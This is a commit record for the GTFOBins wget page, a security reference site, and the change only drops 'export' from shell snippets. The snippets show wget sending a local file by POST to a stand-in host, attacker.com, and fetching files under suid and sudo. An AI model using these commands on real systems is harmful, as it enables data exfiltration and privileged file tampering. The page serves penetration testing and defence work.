

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/wget.md, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Remove some useless instances of export

```diff
--- a/_gtfobins/wget.md
+++ b/_gtfobins/wget.md
@@ -3,25 +3,25 @@ functions:
   file-upload:
     - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use `--post-data` to send hard-coded data.
       code: |
-        export URL=http://attacker.com/
-        export LFILE=file_to_send
+        URL=http://attacker.com/
+        LFILE=file_to_send
         wget --post-file=$LFILE $URL
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
+        URL=http://attacker.com/file_to_get
+        LFILE=file_to_save
         wget $URL -O $LFILE
   suid:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
+        URL=http://attacker.com/file_to_get
+        LFILE=file_to_save
         ./wget $URL -O $LFILE
   sudo:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
+        URL=http://attacker.com/file_to_get
+        LFILE=file_to_save
         sudo wget $URL -O $LFILE
 ---
```
Also changed, not shown: _gtfobins/busybox.md (+1 -1 lines), _gtfobins/jrunscript.md (+2 -2 lines), _gtfobins/lwp-download.md (+1 -1 lines), _gtfobins/puppet.md (+2 -2 lines), _gtfobins/tar.md (+7 -7 lines).
